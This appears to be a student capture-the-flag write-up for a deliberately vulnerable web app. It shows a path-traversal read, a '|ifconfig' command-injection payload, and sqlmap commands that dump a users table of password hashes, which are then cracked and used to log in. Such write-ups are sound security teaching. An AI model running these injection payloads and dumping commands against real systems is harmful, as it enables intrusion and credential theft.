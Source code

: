 ```yaml
---


---
```


<h1 id="pclub-dvwa">Pclub DVWA</h1>
<p>DVWA stands for Damn Vulnerable Web Application , and yes the website was indeed vulnerable ;) . For the first flag a simple look at the source of the images rendered on the gallery pages reveals a possibility of LFI (Local File Inclusion) vulnerability , and it indeed happens to be true. A simple modification to the paths leads us to the routes.txt file.<br>
And we get our first flag :</p>
<pre><code>pclub{path_trav3rsa1_1s_fun} 
</code></pre>
<p><img src="https://s12.gifyu.com/images/Sf9mK.gif" alt="flag1"></p>
<p>For the next flag following the hint leads to the /ipDetails where a simple test for command injection via simple payload of |ifconfig reveals the flag.</p>
<pre><code>60:45:bd:af:3f:e5
</code></pre>
<p><img src="https://i.postimg.cc/wvS9W1TD/task14.gif" alt="flag2"></p>
<p>For the next flag possibilities of exploitation exists in the routes /secretary_login and /blogs . Going to secretary login route shows a simple login form which use multipart-form data for sending a POST request. Testing this route using SQlmap for Sqli reveals it to be non injectable. Hence we shift our attention to the /blogs route where for rendering of the blogs /getBlogDetail path is used. Putting this route to test indeed reveals that it is vulnerable to SQL Injection.</p>
<p>Further using the following commands in SQLMap allows us to get the list of DBs , using which we can query for the tables and the columns in those tables.</p>
<p><strong>For testing against SQLinjection :</strong></p>
<pre><code> sqlmap -u "http://74.225.254.195:2324/getBlogDetail?blog=1&amp;part=link"
</code></pre>
<p>For exploitation the following commands were used :<br>
<strong>List of Databases :</strong></p>
<pre><code>sqlmap -u "http://74.225.254.195:2324/getBlogDetail?blog=1&amp;part=link" --dbs
</code></pre>
<p><img src="https://i.postimg.cc/X7SPQf3s/image.png" alt="image.png"><br>
<strong>List of Tables :</strong></p>
<pre><code>sqlmap -u "http://74.225.254.195:2324/getBlogDetail?blog=1&amp;part=link" -D pclub_secy_task --tables
</code></pre>
<p><strong>List of Columns in the User Table :</strong></p>
<pre><code>sqlmap -u "http://74.225.254.195:2324/getBlogDetail?blog=1&amp;part=link" -D pclub_secy_task -T USERS --columns
</code></pre>
<p><strong>Dumping Data from all available columns in the User Table:</strong></p>
<pre><code> sqlmap -u "http://74.225.254.195:2324/getBlogDetail?blog=1&amp;part=link" -D pclub_secy_task -T USERS -C user,password,userhash --dump
</code></pre>
<p><img src="https://gcdnb.pbrd.co/images/GmHycIFu12Br.png" alt="sqlmap output"><br>
After dumping the data in the csv format and opening it , we find a list of usernames and associated password hashes and username hashes , from the data in the hints table its clear these hashes are MD5 hashes . A quick search of these hashes on known hashes website <a href="http://Hashes.com">Hashes.com</a>. Reveals that all of these hashes are of passwords which have already been leaked in the internet before .</p>
<p><img src="https://gcdnb.pbrd.co/images/punnvoGcdu8x.png" alt="hashes"><br>
<img src="https://gcdnb.pbrd.co/images/n2bdDiBVzAXm.png?o=1" alt="unhashed"><br>
After logging in with the user:pass of kaptaan we get the flag ,<br>
![sqli_flag](<img src="https://gcdnb.pbrd.co/images/oUCbPUjJZcrX.png?o=1" alt=""></p>
<p>Logging in with the password obtained for ritvikg22 gets us to the link of the pwn_task , whereas logging in with amansg22 gets us the log of Aerial Robotics IITK. Uploading this image on <a href="https://www.aperisolve.com/">aperisolve</a> which is a website which checks an image against common steg tactics applied on the image reveals a QR code embedded inside it.</p>
<p><img src="https://i.postimg.cc/GtSZmN6r/image.png" alt="Flag_4"></p>
<p>Scanning that QR code gives the flag.</p>
<pre><code>pclub{data_1s_3v3ryth1ng)
</code></pre>

